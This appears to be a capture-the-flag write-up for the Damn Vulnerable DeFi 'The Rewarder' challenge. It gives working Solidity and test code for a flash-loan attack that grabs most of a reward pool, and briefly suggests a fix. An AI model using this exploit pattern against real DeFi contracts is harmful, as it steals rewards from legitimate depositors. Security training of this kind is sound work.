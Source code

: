 # The rewarder

## Challenge

There's a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.

Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!

You don't have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.

Oh, by the way, rumours say a new pool has just landed on mainnet. Isn't it offering DVT tokens in flash loans?

## Solution

Our goal is to claim the most rewards tokens we can. We observe that the rewards are calculated using the follwing formula

```solidity
rewards = (amountDeposited * 100 * 10 ** 18) / totalDeposits;
```

This means that the rewards to claim are proportional to the ratio of the total amount deposited divided by the total deposits. Therefore, depositing a huge amount would mean that this ratio is close to 1, making it possible to claim almost the totality of the rewards. But how can we deposit a huge amount of DVT tokens? That is where the flashloan pool can help us.

We observe that `TheRewarderPool` allows us to claim rewards every 5 days. However the deposit does not need to be locked for 5 days. Then we can deposit DVT tokens, mint some Accounting Tokens, use these tokens to claim the reward, and widthdraw our DVT tokens all in one transaction. This is the ideal scenario to perform a flashloan. We create an attacker contract named [`AttackerTheRewarder.sol`](./AttackerTheRewarder.sol), and we describe its main functions below.

First we create an `attack` function that launches the flashloan

```solidity
function attack(uint256 _amount) public {
    flashLoanerPool.flashLoan(_amount);
    rewardToken.transfer(msg.sender, rewardToken.balanceOf(address(this)));
}
```

The `flashLoan` function makes a call to the function `receiveFlashLoan` of `msg.sender`, so we implement it.

```solidity
function receiveFlashLoan(uint256 _amount) public {
    DVT.approve(address(rewarderPool), _amount);
    rewarderPool.deposit(_amount);
    rewarderPool.withdraw(_amount);
    DVT.transfer(address(flashLoanerPool), _amount);
}
```

Before depositing the DVT tokens we have received from the flashloan, we approve the `_amount` to transfer to the `TheRewarderPool` contract. Once the deposit is made, if it is time for distributing the rewards, `TheRewarderPool` will transfer to us the corresponding rewards. So, we can withdrwaw the DVT tokens and pay back the loan. This finishes the flashloan transaction, and we send all the reward tokens to the initiator of the attack.

In order to run the attack, we first need to advance the time machine 5 days, so we can claim the rewards. Then we just run the attack, asking for a huge flashloan. The code to do that is then quite straigthforward,

```javascript
it("Exploit", async function () {
  /** CODE YOUR EXPLOIT HERE */
  await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]) // 5 days

  const Attacker = await ethers.getContractFactory(
    "AttackerTheRewarder",
    attacker
  )
  attackerContract = await Attacker.deploy(
    this.liquidityToken.address,
    this.rewardToken.address,
    this.rewarderPool.address,
    this.flashLoanPool.address
  )
  await attackerContract.attack(TOKENS_IN_LENDER_POOL)
})
```

The complete code can be found in [`the-rewarder.challenge.js`](../../test/the-rewarder/the-rewarder.challenge.js)

## Solving the issue

There is many ways to solve the issue of `TheRewarderPool.sol`. As we have seen the fact of being able to deposit, claim rewards and withdraw in one transaction constitutes a vulnerability to a flashloan attack. Implementing a mechanism that delays claiming rewards by locking your funds for the complete 5 days is a reasonable solution.
